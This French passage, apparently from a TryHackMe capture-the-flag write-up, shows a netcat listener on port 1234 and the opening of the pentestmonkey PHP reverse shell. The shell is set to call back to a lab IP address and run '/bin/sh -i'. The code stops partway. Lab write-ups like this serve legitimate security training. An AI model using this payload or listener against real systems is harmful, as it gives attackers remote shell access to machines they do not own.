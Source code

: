 ```bash
```

On reçoit bien notre ping, on peut bien exécuter un reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute  le port 1234 pour avoir un shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat shell.php 

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.9.228.66';  // You have changed this
  $port = 1234;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

```